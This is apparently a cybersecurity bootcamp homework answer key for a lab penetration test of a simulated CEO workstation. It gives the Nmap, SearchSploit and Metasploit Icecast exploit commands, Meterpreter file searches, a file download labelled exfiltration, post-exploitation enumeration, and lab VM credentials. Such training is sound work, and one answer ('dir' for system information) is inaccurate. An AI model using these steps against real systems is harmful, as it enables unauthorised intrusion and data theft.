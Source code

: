 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

   - Run the Nmap command that performs a service and version scan against the target.

     > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer: searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast


   - Run the command to use the Icecast module:

     **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use exploit/windows/http/icecast_header


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run or exploit

   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: search -f *secretfile*

 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*


    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download 'c:\Users\IEUser\document\Drinks.recipe.txt'


8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users


B. Open a Meterpreter shell and gather system information for the target.

  > Answer: dir

C. Run the command that displays the target's computer system information:

   > Answer: sysinfo



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
